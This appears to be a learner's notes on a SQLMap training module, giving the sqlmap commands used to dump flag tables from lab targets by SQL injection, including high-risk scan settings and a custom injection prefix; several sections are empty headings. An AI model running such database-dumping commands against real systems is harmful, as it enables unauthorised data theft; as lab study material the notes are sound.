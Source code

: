 # SQLMAP Essentials

## Building Attacks

### Running SQLMap in an HTTP Request

What's the contents of table flag2? (Case #2)

What's the contents of table flag3? (Case #3)

What's the contents of table flag4? (Case #4)

### Attack Tuning

What's the contents of table flag5? (Case #5)

`sqlmap -u "http://94.237.62.195:42450/case5.php?id=1" --level 5 --risk 3 --batch --tables --dump`

<figure><img src=".gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag6? (Case #6)

``sqlmap -u "http://94.237.62.195:42450/case6.php?col=id" --prefix '`)' --batch --dump -D testdb -T flag6``

<figure><img src=".gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag7? (Case #7)

* UNION snenanigans

`sqlmap -u "http://94.237.62.195:42450/case7.php?id=1" -v --level 5 --risk 3 --dump`

## Database Enumeration

### DB Enum

`sqlmap -u "http://83.136.250.104:37078/case1.php?id=1" --dump -T flag1 -D testdb`

<figure><img src=".gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

### Advanced DB Enum

## Advanced SQLMap Usage

### Bypassing Web Application Protections

### OS Exploitation

## Skills Assessment
